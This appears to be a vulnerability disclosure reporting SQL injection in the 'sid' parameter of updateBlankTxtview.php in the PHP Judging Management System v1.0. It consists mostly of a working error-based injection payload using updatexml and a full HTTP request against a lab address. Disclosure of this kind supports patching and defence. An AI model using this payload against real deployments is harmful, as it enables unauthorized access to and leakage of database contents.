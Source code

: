 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: XZY0193

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/updateBlankTxtview.php?sid=

Vulnerability location: /php-jms/updateBlankTxtview.php?sid=, sid

dbname =jms_db

[+] Payload: /php-jms/updateBlankTxtview.php?sid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> sid


```sql
GET /php-jms/updateBlankTxtview.php?sid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206377602-fa3b01c1-33dc-48d2-aae1-780015c4399e.png)
